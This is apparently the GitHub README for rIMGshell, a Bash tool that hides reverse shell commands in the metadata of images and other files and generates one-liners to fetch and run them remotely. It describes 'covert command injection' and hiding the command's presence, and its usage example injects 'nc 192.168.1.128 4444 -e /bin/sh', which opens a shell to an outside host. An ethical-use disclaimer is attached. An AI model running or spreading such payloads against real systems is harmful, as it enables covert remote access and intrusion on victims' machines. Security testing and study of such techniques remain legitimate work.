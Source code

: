 # rIMGshell
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 


<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!


# New!:

Supports jpg, jpeg, png, mp4, html, htm, zip, rar, pdf, doc, xls, ppt, docx, pptx, xlsx, txt!

# Description:

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods.

# How It Works:
rIMGshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Covert Command Injection: Inject reverse shell commands into image files.
Multiple Execution Methods: Choose from various one-liner execution methods for retrieving and executing the injected command.
Versatile Compatibility: Works with common Linux command-line utilities such as exiftool, exiv2, identify, file, and jpeginfo.
Secure Communication: Execute commands remotely without revealing their presence in the image.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rIMGshell.

**Warning: Ethical and Responsible Use Only
rIMGshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
